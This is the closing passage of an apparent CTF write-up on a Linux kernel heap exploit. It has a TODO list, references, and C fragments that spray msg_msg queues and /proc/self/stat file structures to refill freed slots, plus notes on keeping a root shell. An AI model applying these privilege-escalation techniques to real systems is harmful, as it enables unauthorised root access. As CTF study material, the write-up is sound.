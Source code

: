 # 0x06 TODO

- [ ]  Page Level Fengshui
- [ ]  Reproduce other solutions
- [ ]  Summary msg_msg
- [X]  Solve the segfault issue
- [X]  Make the exploit more stable
- [X]  Fix this blog

# 0x07 Articles

I listed the articles that helped me but sorry for not listing all of them since it has been a too long time so I forgot most of them.

- [Introduction of Heap Fengshui][3]
- [LINUX-KERNEL-PWN][4]

# 0x08 Related Functions

- [seq_file(single_open)][1]
- [msg_msg][2]


# 0x09 Follow-Up

## Segment Fault after executing code
This is because I messed the kernel heap. If I still want a root shell, I can "setsuid('/bin/sh')" and gain a root shell with keeping the attacking process at background. Also, if we didn't mess the heap too much, we can hide the `system("/bin/sh")` in a segfault handler. 

## Make the Exploitation more stable

- Refill faster
```c
    ...
    msgQueueMsg * res  = msgQueueRecv(msgid1, 0xfff, 0);
    // *Avoid put other code before refilling to make it more stable
    msgQueueSend(msgid3,"Refill",0x50,ct++);
    ...
```

- Spray to improve the possibility to hit
```c
    // Spray 5 elements to improve the possibility that
    // we have at least one object after mesg1
    // The success rate ~= 5/6% 
    // We have 6 elements and we can leak as long as msgid1 is not the last one
    // We can improve it with performing it x times but too lazy to do
    int msgid2 = 0;
    for(int i =0 ; i < 0x5 ; i++){
        msgid2 = msgQueueCreate(strcat(strdup("/home/user/"),str(i+0x61)));
        msgQueueSend(msgid2,dp('\x99',8),0x50,ct++); //Mark it with '\x99'*8
        msgQueueSend(msgid2,ctx,0xfd0+0x18,ct++);
    }
    // Spray Kheap 32 with fops2:
    // Try not to use all the slot since we want to
    // 1. Arbitrary free one of fops
    // 2. Refill it
    int fds[0x40] = {0};
    for(int i = 0 ; i<0x40;i++){
        fds[i] = open("/proc/self/stat",0);
```

[1]: https://elixir.bootlin.com/linux/latest/source/fs/seq_file.c
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips